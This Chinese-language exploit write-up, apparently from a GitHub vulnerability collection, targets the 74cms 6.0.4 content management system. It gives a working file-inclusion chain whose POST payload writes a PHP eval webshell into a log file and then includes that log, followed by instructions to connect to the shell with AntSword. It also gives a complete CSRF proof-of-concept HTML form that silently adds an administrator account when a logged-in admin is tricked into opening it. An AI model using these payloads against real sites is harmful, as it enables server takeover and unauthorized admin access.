




### 74cms（骑士）

```
版本信息：6.0.4
```

#### 文件包含getShell

```
get:

index.php?m=home&a=assign_resume_tpl


post:

variable=1&tpl=<?php fputs(fopen("shell.php","w"),"<?php eval(/$_POST[x]);?>")?>; ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```




会将内容写入到日志文件里。包含日志文件即可生成一个webshell（目录需要有写入的权限，如果没有写入的权限需要修改上方php代码的shell生成的路径）

```
get:

index.php?m=home&a=assign_resume_tpl


post:

variable=1&tpl=data/Runtime/Logs/Home/22_10_12.log  #日志文件为日期
```




使用蚁剑连接webshell





#### CSRF添加管理员


火狐浏览器


构造poc，将以下内容复制到html文件

```
<html>

 <!-- CSRF PoC - generated by Burp Suite Professional -->

 <body>

  <script>history.pushState('', '', '/')</script>

  <form action="http://192.168.81.116:10004/index.php?m=admin&c=admin&a=add" method="POST">


   <input type="hidden" name="username" value="demo" />

   <input type="hidden" name="email" value="demo&#64;qq&#46;com" />

   <input type="hidden" name="password" value="123456" />

   <input type="hidden" name="repassword" value="123456" />

   <input type="hidden" name="role&#95;id" value="1" />

   <input type="submit" value="Submit request" />

  </form>

 </body>

</html>


```

将该文件诱使管理员打开访问，管理员在登录的情况下访问了该文件即可成功添加一个管理员用户，攻击者使用添加的管理员可成功登录后台




